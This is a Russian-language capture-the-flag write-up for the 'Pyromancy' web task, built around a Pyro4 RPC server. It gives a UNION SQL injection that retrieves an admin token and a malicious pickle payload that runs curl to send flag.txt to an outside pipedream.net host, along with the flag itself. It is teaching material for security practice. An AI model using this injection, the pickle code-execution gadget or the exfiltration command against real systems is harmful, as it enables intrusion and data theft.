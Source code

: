 # Pyromancy | easy | web

## Информация

> Какие-то очередные "стартаперы" предложили нам внедрить их решение. Надо бы проверить его на безопасность...
> PS - название файла flag.txt
> http://5.1.53.43:5645/
> 5.1.53.43:5643
> 5.1.53.43:5644
## Описание



## Решение

1. На сайте заходим в документацию, где видим использование Pyro4, отсюда же видим список открытых функций. 

2. Изучив документацию к Pyro4, можно обнаружить инстурменты для управления сервером разрешения имен Pyro4. Используем его на данных портах, чтобы получить список доступных интерфейсов:
```bash
python3 -m Pyro4.nsc -n 5.1.53.43 -p 5643 list
#или
pyro4-nsc -n 5.1.53.43 -p 5643 list

#--------START LIST 
#Private --> PYRO:PrivateFunctions@0.0.0.0:5644
#Public --> PYRO:PublicFunctions@0.0.0.0:5644
#Pyro.NameServer --> PYRO:Pyro.NameServer@l0.0.0.0:9090
#    metadata: ['class:Pyro4.naming.NameServer']
#--------END LIST 
``` 


3. На http://5.1.53.43:5645/docs перичислены функции доступные на интерфейсе Public. Особое внимание стоит PrintInfo(). Для взаимодействия с сервером напишем небольшой клиент.
```python
import pyro4
public = "PYRO:PublicFunctions@5.1.53.43:5644"
private = "PYRO:PrivateFunctions@5.1.53.43:5644"
public_proxed = Pyro4.Proxy(public)
private_proxed = Pyro4.Proxy(private)
print(public_proxed.PrintInfo())
```

```bash
python3 client.py

# Hi, this is the Pyro project object management server. 
# If you registered at the website, you can manage your serialized objects here.
# Please consider, that not all of functional is implemented
# The functions are: 
# PrintInfo() - Returns this message
# CreateFreeUser() - Creates free user and returns it's token
# PutObject(unique_token:string, object:b64string ) - puts your object into db
# GetObjectList(unique_token:string) - returns your objects
# LoadObject(unique_token:string, object_name:string) - not implemented
# RemoveObject(unique_token:string, object_name:string) - not implemented
# StartObjectServer(unique_token:string, object_name:string) - not implemented
```

4. По аналогии с Public, можно попробовать вызвать PrintInfo() на интерфейсе Private:
```python
#...
print(private_proxed.PrintInfo())
```

```bash
python3 client.py

# Hi pal, i've temporarly disabled authentication here to add some of our objects from vacation
# Please don't forget to enable it again

# Hi, this is the Pyro project object management server administrative interface. 
# Be aware, that some functions can cause vulnerabilities
# Please consider, that not all of functional is implemented here, use configuration file to manage them
# The available functions are: 
# PrintInfo() - Returns this message
# DisablePickleCheck(unique_token:string) - Disables picklescan checking
# ForceRestartObject(object_uuid:uuid4) - Force Restarts object (better use local menu)
# ForceRemoveObject(object_uuid:uuid4) - Force remove object (better use local menu)
# Chcfg(cfgname:string, cfgvalue:json) - Remotely change configuration, changes may require restart (better use local menu)
```

5. Среди методов интерфейса замечаем "DisablePickleCheck", который отключает проверку пиклов перед загрузкой, но он требует токен администратора.
Функция GetObjectList возвращает объекты пользователя по его токену. Все условия располагают к SQLi - ее и пробуем обнаружить и проэксплуатировать, что
```python
#...
print(public_proxed.GetObjectList("b7482935-4ed1-4f53-b123-442d49b3c2b6' UNION SELECT uid FROM users where username='admin'--"))
```

```bash
python3 client.py
#[(None,), ('775b3ad3-b3d5-4d57-a5af-868b42d46fab',)]
```

6. Используя полученый токен администратора отключаем picklescan и загружаем пейлоуд, предварительно его собрав и получаем отстук с флагом на веб-сервере или RCE-шимся на тачку:
```python
#payload.py
import pickle
import os
import base64
class MaliciousPayload:
    def __reduce__(self):
        return (os.system, ('curl https://eo2vivpybd0wl6h.m.pipedream.net/$(cat flag.txt)',))
        #return (print, ('abcd',))
payload = MaliciousPayload()
serialized_payload = pickle.dumps(payload)
print(base64.urlsafe_b64encode(serialized_payload))
```

```python
#client.py
#...
print(private_proxed.DisablePickleCheck("775b3ad3-b3d5-4d57-a5af-868b42d46fab"))
print(public_proxed.PutObject("775b3ad3-b3d5-4d57-a5af-868b42d46fab","gASVVwAAAAAAAACMBXBvc2l4lIwGc3lzdGVtlJOUjDxjdXJsIGh0dHBzOi8vZW8ydml2cHliZDB3bDZoLm0ucGlwZWRyZWFtLm5ldC8kKGNhdCBmbGFnLnR4dCmUhZRSlC4="))
```

## Флаг

`TyumenCTF{3mbr4c3_7h3_fl4m3}`

